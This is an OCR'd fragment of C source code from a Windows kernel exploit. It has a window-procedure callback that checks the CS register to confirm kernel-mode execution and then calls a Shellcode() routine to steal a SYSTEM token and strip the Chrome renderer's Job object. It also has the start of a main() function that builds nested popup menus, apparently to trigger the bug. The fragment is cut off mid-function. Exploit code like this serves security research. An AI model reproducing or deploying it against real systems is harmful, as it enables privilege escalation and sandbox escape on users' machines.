 static
LRESULT
WINAPI
xxMainWindowProc(
	_In_ HWND   hwnd,
	_In_ UINT   msg,
	_In_ WPARAM wParam,
	_In_ LPARAM lParam
)
{
	if (msg == 0x1234)
	{
		WORD um = 0;
		__asm
		{
			// Grab the value of the CS register and
			// save it into the variable UM.
			//int 3
			mov ax, cs
			mov um, ax
		}
		// If UM is 0x1B, this function is executing in usermode
		// code and something went wrong. Therefore output a message that
		// the exploit didn't succeed and bail.
		if (um == 0x1b)
		{
			// USER MODE
			printf("[!] Exploit didn't succeed, entered sprayCallback with user mode privileges.\r\n");
			ExitProcess(-1); // Bail as if this code is hit either the target isn't 
							 // vulnerable or something is wrong with the exploit.
		}
		else
		{
			success = TRUE; // Set the success flag to indicate the sprayCallback()
							// window procedure is running as SYSTEM.
			Shellcode(); // Call the Shellcode() function to perform the token stealing and
						 // to remove the Job object on the Chrome renderer process.
		}
	}
	return DefWindowProcW(hwnd, msg, wParam, lParam);
}

int main()
{
	/* Creating the menu */
	for (int i = 0; i < 3; i++)
		hMenuList[i] = CreateMenu();

	/* Appending the menus along with the item */
	for (int i = 0; i < 3; i++)
	{
		AppendMenuA(hMenuList[i], MF_POPUP | MF_MOUSESELECT, (UINT_PTR)hMenuList[i + 1], "item");
	}
	AppendMenuA(hMenuList[2], MF_POPUP | MF_MOUSESELECT, (UINT_PTR)0, "item");
